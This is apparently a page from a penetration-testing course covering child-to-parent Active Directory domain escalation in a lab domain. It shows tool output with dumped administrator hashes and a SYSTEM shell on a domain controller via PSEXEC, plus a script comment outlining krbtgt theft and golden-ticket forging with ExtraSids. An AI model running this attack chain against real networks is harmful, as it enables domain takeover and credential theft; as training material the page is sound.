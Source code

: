 ```shell-session
INLANEFREIGHT.LOCAL/administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
INLANEFREIGHT.LOCAL/administrator:aes256-cts-hmac-sha1-96s:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
[*] Opening PSEXEC shell at ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Requesting shares on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Found writable share ADMIN$
[*] Uploading file BnEGssCE.exe
[*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Creating service UVNb on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Starting service UVNb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>exit
[*] Process cmd.exe finished with ErrorCode: 0, ReturnCode: 0
[*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Stopping service UVNb.....
[*] Removing service UVNb.....
[*] Removing file BnEGssCE.exe.....
```

The script lists out the workflow and process in a comment as follows:

Code: python

```python
#   The workflow is as follows:
#       Input:
#           1) child-domain Admin credentials (password, hashes or aesKey) in the form of 'domain/username[:password]'
#              The domain specified MUST be the domain FQDN.
#           2) Optionally a pathname to save the generated golden ticket (-w switch)
#           3) Optionally a target-user RID to get credentials (-targetRID switch)
#              Administrator by default.
#           4) Optionally a target to PSEXEC with the target-user privileges to (-target-exec switch).
#              Enterprise Admin by default.
#
#       Process:
#           1) Find out where the child domain controller is located and get its info (via [MS-NRPC])
#           2) Find out what the forest FQDN is (via [MS-NRPC])
#           3) Get the forest's Enterprise Admin SID (via [MS-LSAT])
#           4) Get the child domain's krbtgt credentials (via [MS-DRSR])
#           5) Create a Golden Ticket specifying SID from 3) inside the KERB_VALIDATION_INFO's ExtraSids array
#              and setting expiration 10 years from now
#           6) Use the generated ticket to log into the forest and get the target user info (krbtgt/admin by default)
#           7) If file was specified, save the golden ticket in ccache format
#           8) If target was specified, a PSEXEC shell is launched
#
#       Output:
#           1) Target user credentials (Forest's krbtgt/admin credentials by default)
#           2) A golden ticket saved in ccache for future fun and profit
#           3) PSExec Shell with the target-user privileges (Enterprise Admin privileges by default) at target-exec
#              parameter.
```
